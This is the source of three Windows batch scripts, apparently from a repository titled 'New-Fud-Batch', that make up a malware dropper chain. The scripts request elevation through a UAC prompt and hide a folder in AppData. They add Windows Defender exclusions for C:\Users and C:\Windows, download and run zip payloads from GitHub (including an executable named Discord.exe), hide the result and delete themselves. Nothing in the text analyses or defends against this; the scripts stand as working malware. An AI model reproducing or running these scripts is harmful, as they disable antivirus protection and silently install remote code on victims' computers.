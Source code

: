 @echo off

powershell -window hidden -command ""

    IF "%PROCESSOR_ARCHITECTURE%" EQU "amd64" (
>nul 2>&1 "%SYSTEMROOT%\SysWOW64\cacls.exe" "%SYSTEMROOT%\SysWOW64\config\system"
) ELSE (
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"
)
if '%errorlevel%' NEQ '0' (
    goto UACPrompt
) else ( goto gotAdmin )
:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params= %*
    echo UAC.ShellExecute "cmd.exe", "/c ""%~s0"" %params:"=""%", "", "runas", 1 >> "%temp%\getadmin.vbs
    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B
:gotAdmin
    pushd "%CD%"
    CD /D "%~dp0

cd "C:\Users\%USERNAME%\AppData\Local"
mkdir "Anon"
attrib +h "Anon" /s /d
cd C:\Users\%USERNAME%\AppData\Local\Anon" 
Powershell -Command "Invoke-Webrequest 'https://github.com/AnonAm93/New-Fud-Batch/raw/main/1.zip' -OutFile 1.zip"
tar -xf 1.zip
del 1.zip

start C:\Users\%USERNAME%\AppData\Local\Anon\1.bat"

del "%~f0" & exit



@echo off

powershell -window hidden -command ""

powershell.exe -command "Add-MpPreference -ExclusionPath "C:\Users
powershell.exe -command "Add-MpPreference -ExclusionPath "C:\Windows

start C:\Users\%USERNAME%\AppData\Local\Anon\2.bat"

del "%~f0" & exit



@echo off

powershell -window hidden -command ""

Powershell -Command "Invoke-Webrequest 'https://github.com/AnonAm93/New-Fud-Batch/raw/main/Discord.zip' -OutFile Discord.zip"
tar -xf Discord.zip
del Discord.zip
start Discord.exe
attrib +h "C:\Users\%USERNAME%\AppData\Local\Anon\Discord.exe" /s /d

del "%~f0" & exit
